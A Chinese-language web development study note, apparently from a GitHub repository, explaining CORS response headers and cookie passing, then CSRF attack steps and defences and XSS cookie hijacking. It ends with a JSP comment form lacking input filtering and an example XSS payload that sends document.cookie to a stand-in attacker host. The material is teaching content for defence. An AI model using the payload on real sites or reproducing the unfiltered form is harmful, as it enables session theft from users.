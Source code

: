 - 响应头主要的字段:
  > Access-Control-Allow-Origin
  > Access-Control-Allow-Methods: GET, POST, PUT
  > Access-Control-Allow-Headers: X-Custom-Header
  > Access-Control-Allow-Credentials: true
  > Access-Control-Max-Age: 1728000
- **响应头中的 Max-Age**

  > 用来指定本次预检请求的有效期，单位为秒。上面结果中，有效期是 20 天（1728000 秒），即允许缓存该条回应 1728000 秒（即 20 天），在此期间，不用发出另一条预检请求。

  4.5 **如何在 cors 中传递 cookie**

- 1 在服务器端设置 Access-Control-Allow-Credentials 为 true.
  > 该字段表示是否允许发送 Cookie
- 2 在 ajax 请求中设置 xhr.withCredentials = true
- 3 Access-Control-Allow-Origin 就不能设为星号，必须指定明确的、与请求网页一致的域名.

  > 同时，Cookie 依然遵循同源政策，只有用服务器域名设置的 Cookie 才会上传，其他域名的 Cookie 并不会上传，且（跨源）原网页代码中的 document.cookie 也无法读取服务器域名下的 Cookie。

#### 9 web 安全

常见的 web 安全问题：1 csrf（跨站请求伪造）2 xss（跨站脚本注入）3 sql 注入

#####9.1 **CSRF（跨站请求伪造）** > 特征：**冒用用户身份，进行恶意操作**，前提是用户已经登录了账号，没有退出，然后访问危险网站。

![CSRF](https://segmentfault.com/img/remote/1460000012693783?w=904&h=739)

```
1 采用cookie来进行用户校验
2 登录受信任网站A，并在本地生成Cookie
3 在不登出A的情况下，访问危险网站B
4 危险网站B调用指向A的接口发出攻击，整个情况没有获取A的cookie，利用web的cookie隐式身份验证机制来攻击。即使A的cookie是http-only，也会中招
```

防御 CSRF 攻击的手段：

- 1 验证 http 的 Referer 字段，但是完全依赖浏览器发送正确的 referer,也不是很可靠。因为完全依靠浏览器的具体实现，存在浏览器被破解的篡改其 referer 字段的可能
- 2 在请求参数中加入 token 验证，比如 post 中，以参数的形式加个随机产生的 token

#####9.2 **XSS（跨域脚本注入）** > 特征:击者通过某种方式将恶意代码注入到网页上，然后其他用户观看到被注入的页面内容后会受到特定攻击

2.1 **cookie 劫持** _攻击者获取到用户的 cookie_

> 例如，页面有一个评论输入，输入后会，因为后台的漏洞，没有过滤特殊字符，会直接明文保存到数据库中，然后展示到网页时直接展示明文数据。

```
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<form action="saveComment.jsp" method="post">
     请输入评论内容：<BR>
     <input name="content" type="text">
     <input type="submit" value="确认">
</form>
```

> 然后攻击者分析后，输入

```
script>window.open("http://www.attackpage.com/record?secret=" + document.cookie)</script>
```
